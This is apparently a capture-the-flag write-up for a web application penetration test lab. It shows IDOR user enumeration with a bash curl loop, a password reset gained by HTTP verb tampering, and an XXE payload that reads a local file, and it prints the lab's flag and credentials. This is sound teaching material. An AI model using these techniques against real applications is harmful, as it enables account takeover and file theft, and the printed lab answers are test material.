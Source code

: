 ```yaml
---
sticker: emoji//1f578-fe0f
---
```

## Scenario

You are performing a web application penetration test for a software development company, and they task you with testing the latest build of their social networking web application. Try to utilize the various techniques you learned in this module to identify and exploit multiple vulnerabilities found in the web application.

The login details are provided in the question below.

![](../images/Pasted%20image%2020250217220316.png)

Let's visit the web application:

![](../images/Pasted%20image%2020250217220549.png)

We can authenticate now:

![](../images/Pasted%20image%2020250217220617.png)
## Identifying IDOR
---

We get sent to this dashboard, we can see settings, messages, invites, events, account settings and statistics, if we go to `settings`, we can see this:

![](../images/Pasted%20image%2020250217220735.png)

We can change our password here, let's try sending a request to burp to analyze it:

![](../images/Pasted%20image%2020250217221231.png)

We get an api call to `token/74`, also, we are assigned a cookie and an `uid`, in this case, we are assigned with `uid=74`, viewing the structure of the api call, we can see that the uid is strictly related to the token, let's try changing it to another uid to check the behavior:

![](../images/Pasted%20image%2020250217221356.png)

For example, if we change it to 1, we get that token, that token is necessary for the following:

![](../images/Pasted%20image%2020250217221433.png)

We can see that the `reset.php` function needs the token to function, since we can enumerate the tokens for other uids rather than ours, but, how do we even know which one is meant for admin user since we can only know tokens, that's when we need to go to our `HTTP History`, in there, we can check another `GET` request being made to `/api.php/user/`:


![](../images/Pasted%20image%2020250217222105.png)

Since this behaves exactly like the token request, we can change the uid and token call to check other users, for example, with number 1:

![](../images/Pasted%20image%2020250217222149.png)

## Enumerating Admin User
Now, it's time to automatize the uid search, let's begin with this bash script to enumerate users and view the uid of the admin user:

```bash
#!/bin/bash

# Target URL
TARGET="http://IP:PORT/api.php/user/"

# User-Agent
USER_AGENT="Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0"

# Output file
OUTPUT_FILE="idor_results.txt"

# Clear previous results
> "$OUTPUT_FILE"

# Colored output
GREEN="\e[32m"
RED="\e[31m"
YELLOW="\e[33m"
RESET="\e[0m"

# Loop through user IDs
for uid in {1..100}; do
    RESPONSE=$(curl -s "$TARGET$uid" -H "User-Agent: $USER_AGENT")
    
    if echo "$RESPONSE" | grep -iq "admin"; then
        echo -e "${GREEN}[+] Admin Found! UID: $uid${RESET}"
        echo "$RESPONSE" | tee -a "$OUTPUT_FILE"
    fi

done

echo -e "${GREEN}[+] Enumeration complete. Results saved to $OUTPUT_FILE${RESET}"

```

After a bit, we get the following:

```bash
[+] Admin Found! UID: 52

{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```

We found the right uid, let's visualize the token:

![](../images/Pasted%20image%2020250217230027.png)

Our admin token is:

```
{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
```

If we try to reset the password, this happens:

![](../images/Pasted%20image%2020250217230135.png)

We're getting `Access Denied`, we can bypass this restriction with `HTTP Verb Tampering`.

## HTTP Verb Tampering
---

To begin with, change the request to `PUT`:

![](../images/Pasted%20image%2020250217230238.png)

Now we get something different, let's adjust the parameters:

![](../images/Pasted%20image%2020250217230311.png)

And now we were able to successfully change the password using `PUT` verb, we can now log as the admin user:

```ad-note
`a.corrales`:`test`
```

![](../images/Pasted%20image%2020250217230426.png)

## Identifying Admin Functionalities
----

Nice, we are now inside the admin panel and we got a new functionality: `Add Event`, let's check the request for this:

![](../images/Pasted%20image%2020250217230553.png)

Let's create a simple test event:

![](../images/Pasted%20image%2020250217230641.png)

Now, check the request:

![](../images/Pasted%20image%2020250217230722.png)

We have a XML form, if we send the request, this is the response we're given:

![](../images/Pasted%20image%2020250217230757.png)

It seems like the `name` property gets injected directly to the response, let's change it to something else and check:

![](../images/Pasted%20image%2020250217230848.png)

If we inject `whoami`, we can see it indeed goes through, we do not get the output of the command but it helps us understand that it gets reflected in the response:

![](../images/Pasted%20image%2020250217231014.png)

Now, knowing this, we can try exploiting XXE.

## Exploiting XXE
---

We can read the contents of our flag using the following payload:

```xml
<!DOCTYPE name [

  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">

]>
            <root>
            <name>&xxe;</name>
            <details>1</details>
            <date>0001-11-11</date>
            </root>
```

In this case, since we know the `name` is vulnerable, we can define an entity and then use it, this displays the following:

```
HTTP/1.1 200 OK

Date: Tue, 18 Feb 2025 04:41:32 GMT

Server: Apache/2.4.41 (Ubuntu)

Expires: Thu, 19 Nov 1981 08:52:00 GMT

Cache-Control: no-store, no-cache, must-revalidate

Pragma: no-cache

Vary: Accept-Encoding

Content-Length: 86

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html; charset=UTF-8



Event 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' has been created.
```

We got the flag in base64, we can even use burp's decoder to quickly decode that:

![](../images/Pasted%20image%2020250217234359.png)

That outputs:

```
<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>
```

Flag is: 

```
HTB{m4573r_w3b_4774ck3r}
```

![](../images/Pasted%20image%2020250217234432.png)

